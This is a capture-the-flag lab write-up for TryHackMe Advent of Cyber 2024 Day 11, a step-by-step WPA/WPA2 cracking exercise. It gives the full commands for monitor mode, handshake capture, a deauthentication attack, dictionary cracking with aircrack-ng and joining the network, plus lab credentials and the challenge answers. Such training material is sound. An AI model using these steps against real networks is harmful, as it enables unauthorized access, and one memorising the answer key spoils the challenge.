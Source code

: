 # 🎄 TryHackMe Advent of Cyber 2024 – Day 11: Wi-Fi Attacks

## Objectives 🎯

Day 11 provides an in-depth exploration of Wi-Fi security and a hands-on demonstration of WPA/WPA2 cracking. This exercise highlights the vulnerabilities in wireless networks and the importance of strong security practices.

### Goals:
1. Learn about Wi-Fi and its critical role in organizations.
2. Understand various Wi-Fi attack techniques.
3. Perform a WPA/WPA2 cracking attack to capture a 4-way handshake and decrypt the Wi-Fi password (PSK).

## Steps 🚀

### Step 1: Preparing the Environment
1. **Start Machines**:  
   - Press the **Start Machine** button to initialize the target machine.  
   - Press the **Start AttackBox** button to set up the AttackBox environment.
2. **SSH into the Target Machine**:  
   Use the credentials provided:
   ```
   ssh glitch@MACHINE_IP
   Password: Password321
   ```

### Step 2: Analyzing Wireless Interfaces
1. **Check Wireless Device Information**:  
   Run `iw dev` to identify available wireless interfaces.  
   - **BSSID of our wireless interface**: `02:00:00:00:02:00`.
2. **Scan for Nearby Networks**:  
   Execute `sudo iw dev wlan2 scan` to list available Wi-Fi networks.  
   - **SSID and BSSID of the access point**: `MalwareM_AP, 02:00:00:00:00:00`.

### Step 3: Setting Monitor Mode
1. **Switch to Monitor Mode**:  
   ```
   sudo ip link set dev wlan2 down
   sudo iw dev wlan2 set type monitor
   sudo ip link set dev wlan2 up
   ```
2. **Confirm Monitor Mode**:  
   Use `sudo iw dev wlan2 info` to verify the interface is now in monitor mode.

### Step 4: Open a Second SSH Terminal
1. **Establish a Second SSH Session**:  
   Open another terminal to create a second SSH session into the target machine. This allows you to monitor Wi-Fi traffic in one session while executing attacks in the other.

2. **Capture Wi-Fi Traffic**:  
   On the first terminal, run `sudo airodump-ng wlan2` to display nearby networks and gather details such as signal strength, channel, and encryption type.  
   - **Focus on the target network**: `MalwareM_AP`.

3. **Target the Access Point**:  
   Run `sudo airodump-ng -c 6 --bssid 02:00:00:00:00:00 -w output-file wlan2` to capture the 4-way handshake. Let this command run as you proceed.

### Step 5: Launch a Deauthentication Attack
1. **Identify Connected Clients**:  
   When a client connected to `MalwareM_AP` is detected, its **BSSID** will appear in the STATION section.  
   - **BSSID of the connected client**: `02:00:00:00:01:00`.

2. **Send Deauthentication Packets**:  
   Use `sudo aireplay-ng -0 1 -a 02:00:00:00:00:00 -c 02:00:00:00:01:00 wlan2` to disconnect the client and force a handshake.  
   - The captured handshake will appear in the output:  
     **`WPA handshake: 02:00:00:00:00:00`**.

### Step 6: Crack the WPA/WPA2 PSK
1. **Use Aircrack-ng**:  
   Perform a dictionary attack on the captured handshake:
   ```
   sudo aircrack-ng -a 2 -b 02:00:00:00:00:00 -w /home/glitch/rockyou.txt output*cap
   ```
2. **Decrypted PSK**:  
   - **Password (PSK)**: `fluffy/champ24`.

### Step 7: Connect to the Wi-Fi Network
1. **Generate a Configuration File**:  
   ```
   wpa_passphrase MalwareM_AP 'fluffy/champ24' > config
   ```
2. **Join the Network**:  
   ```
   sudo wpa_supplicant -B -c config -i wlan2
   ```
3. **Verify Connection**:  
   Use `iw dev` to confirm the wireless interface is connected to `MalwareM_AP`.

## Key Findings 🔑

1. **Weak Passwords**:  
   A simple password (`fluffy/champ24`) allowed the network to be cracked quickly, emphasizing the need for strong, complex passphrases.
2. **4-Way Handshake Vulnerability**:  
   WPA/WPA2 handshake data can be exploited for offline attacks, highlighting the importance of secure configurations.
3. **Monitor Mode**:  
   Demonstrates the value of specialized tools for passive network analysis and security auditing.

## Lessons Learned 🌟

### Wi-Fi Security Insights:
- **Secure Passphrases**: Always use strong, complex passwords for Wi-Fi networks.
- **Monitor Mode**: Essential for analyzing network traffic and capturing handshake data.
- **Deauthentication Attacks**: Highlight the vulnerabilities in wireless protocols and the need for additional security layers.

### Tools and Techniques 🛠️
1. **`iw` and `airodump-ng`**: Analyze and monitor wireless networks.
2. **`aireplay-ng`**: Perform deauthentication attacks.
3. **`aircrack-ng`**: Conduct dictionary attacks to crack WPA/WPA2 passwords.

## Final Thoughts 🎁

This challenge reinforces the importance of robust wireless security practices. Organizations should regularly audit their networks, enforce strong password policies, and monitor for rogue access points to protect against unauthorized access.

### Answers ✅
1. **What is the BSSID of our wireless interface?**  
   **Answer**: `02:00:00:00:02:00`

2. **What is the SSID and BSSID of the access point?**  
   **Answer**: `MalwareM_AP, 02:00:00:00:00:00`

3. **What is the BSSID of the wireless interface that is already connected to the access point?**  
   **Answer**: `02:00:00:00:01:00`

4. **What is the PSK after performing the WPA cracking attack?**  
   **Answer**: `fluffy/champ24`

5. **If you enjoyed this task, feel free to check out the Networking module.**  
   **Answer**: No answer needed.

## Table of Contents 📚

| Day  | Challenge                              | Day  | Challenge                               | Day  | Challenge                               |
|------|----------------------------------------|------|-----------------------------------------|------|-----------------------------------------|
| 📖  | [README](README.md)                    | 11   | **Wi-Fi Attacks**                      | 22   | [Kubernetes DFIR](day_22.md)            |
| 1    | [OPSEC Challenge](day1.md)             | 12   | [Web Timing Attacks](day_12.md)        | 23   | [Hash Cracking](day_23.md)              |
| 2    | [Log Analysis](day2.md)                | 13   | [WebSockets](day_13.md)                | 24   | [Hash Cracking](day_23.md)              |
| 3    | [Log Analysis](day3.md)                | 14   | [Certificate Mismanagement](day_14.md) | 25   |                                         |
| 4    | [Atomic Red Team](day4.md)             | 15   | [Active Directory](day_15.md)          | 26   |                                         |
| 5    | [XXE](day5.md)                         | 16   | [Azure Exploitation](day_16.md)        | 27   |                                         |
| 6    | [Sandboxes](day6.md)                   | 17   | [Log Analysis](day_17.md)              | 28   |                                         |
| 7    | [AWS Sandboxes](day7.md)               | 18   | [Prompt Injection](day_18.md)          | 29   |                                         |
| 8    | [Shellcodes](day8.md)                  | 19   | [Game Hacking](day_19.md)              | 30   |                                         |
| 9    | [Risk Assessment](day9.md)             | 20   | [Traffic Analysis](day_20.md)          | 31   |                                         |
| 10   | [Phishing](day_10.md)                  | 21   | [Reverse Engineering](day_21.md)       | ☃️  | 🎄🎅🎁✨                              |
